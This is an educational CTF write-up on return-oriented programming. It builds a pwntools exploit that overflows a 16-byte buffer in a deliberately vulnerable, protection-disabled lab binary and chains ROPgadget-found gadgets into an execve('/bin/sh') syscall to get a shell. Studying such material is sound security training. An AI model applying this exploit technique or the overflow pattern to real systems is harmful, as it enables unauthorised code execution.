 ```yaml
---
title: Simple PWN - 0x07(ROP)
tags: [CTF, PWN, eductf]

category: "Security/Course/NTU CS/PWN"
---
```


# Simple PWN - 0x07(ROP)
###### tags: `CTF` `PWN` `eductf`

## Background
* This is very similar to normal `BOF`.
* If a sample code that doesn't have a backdoor function and you cannot input a backdoor function as well, then you can use some code segment to merge a shellcode.
* Therefore, the main idea is use some `<operation>;ret` pattern segment to overlap stack.
![](https://imgur.com/YGarADK.png)

## Original Code
```c!=1
#include <stdio.h>
#include <unistd.h>

int main()
{
    setvbuf(stdin, 0, _IONBF, 0)
    setvbuf(stdout, 0, _IONBF, 0);

    char s[0x10];

    printf("Here is your \"/bin/sh\": %p\n", "/bin/sh");
    printf("Give me your ROP: ");
    read(0, s, 0x400);
    
    return 0;
}
```
* At line `11`, `%p` means pointer of `/bin/sh` string.
* Note that, if you establish the code yourself, you must turn off the protection by the command below and use `checksec` to observe the protection. In addition, please use `-static` command to compile library at compile time, so that we can get `ROP gadget` more easily.
    ```bash!
    gcc -o rop rop.c -zexecstack -no-pie -fno-stack-protector -z norelro -static
    ```

## Exploit
* First, we can observe the program has overflow(very important), but has no other backdoor method can access or global variable can write shellcode. Then we can consider to use `ROP gadget` to construct chain.
* Second, we use `ROPgadget` to find suitable gadget
    ```bash!
    $ ROPgadget --multibr --binary rop > rop_gadget
    $ vim rop_gadget
    ```
    ![](https://imgur.com/IzeTvgK.png)
    ![](https://imgur.com/PlA5C8B.png)
    ![](https://imgur.com/zg28Pti.png)
    ![](https://imgur.com/WDS0HUh.png)
    ![reference link](https://imgur.com/dEh7b5n.png)
    * Note that, you may consider that `pop rdx ; pop rbx ; ret` is not what we want. We just want `pop rdx ; ret`. Therefore, we have to push one more value for `pop rbx ;` instruction.
* Then, we can construct our payload:
    ```python!=
    from pwn import *

    context.arch = 'amd64'

    r = process('./rop')

    r.recvuntil('Here is your "/bin/sh": ')
    binsh = int(r.recvline()[:-1], 16)
    info(f"binsh: {hex(binsh)}")

    pop_rdi_ret = 0x401eaf
    pop_rsi_ret = 0x409ede
    pop_rdx_ret = 0x485aeb
    pop_rax_ret = 0x44fcc7
    syscall = 0x401c64
    ```
    * Note that, `r.recvline()[:-1]` is `b'0x498004'` and we must pop to `%rdi` at line `17` below.
* Then we can combine them together using [flat method](https://docs.pwntools.com/en/stable/util/packing.html#pwnlib.util.packing.flat). It'll flat the address with **length 8 bytes**.
    ```python!=16
    ROP = flat(
        pop_rdi_ret, binsh,
        pop_rsi_ret, 0,
        pop_rdx_ret, 0, 0,
        pop_rax_ret, 0x3b,
        syscall,
    )

    gdb.attach(r)
    r.sendafter("Give me your ROP: ", b'a' * 0x18 + ROP)

    r.interactive()
    ```
* Finally, we got shell!!!
    ![](https://imgur.com/dk0Z2mw.png)

## Analysis
* This is totally the same as our hypothesis.
![](https://imgur.com/OjcDNbu.png)
* We can see that all parameters are ready
    ![](https://imgur.com/xXx7HRQ.png)
## Reference
[NTUSTISC - Pwn Basic 3 [2019.03.26]](https://youtu.be/iA4Hrr17ooI?t=1239)
[Pwn week1](https://youtu.be/ktoVQB99Gj4?t=6712)